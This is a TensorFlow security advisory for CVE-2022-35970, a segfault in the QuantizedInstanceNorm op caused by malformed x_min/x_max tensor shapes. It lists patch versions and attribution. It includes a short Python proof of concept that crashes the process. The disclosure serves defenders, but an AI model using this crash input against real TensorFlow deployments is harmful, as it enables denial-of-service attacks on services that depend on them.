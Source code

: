 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-102.md
## TFSA-2022-102: Segfault in `QuantizedInstanceNorm`

### CVE Number
CVE-2022-35970

### Impact
If `QuantizedInstanceNorm` is given `x_min` or `x_max` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

output_range_given = False
given_y_min = 0
given_y_max = 0
variance_epsilon = 1e-05
min_separation = 0.001
x = tf.constant(88, shape=[1,4,4,32], dtype=tf.quint8)
x_min = tf.constant([], shape=[0], dtype=tf.float32)
x_max = tf.constant(0, shape=[], dtype=tf.float32)
tf.raw_ops.QuantizedInstanceNorm(x=x, x_min=x_min, x_max=x_max, output_range_given=output_range_given, given_y_min=given_y_min, given_y_max=given_y_max, variance_epsilon=variance_epsilon, min_separation=min_separation)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/tensorflow/tensorflow/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
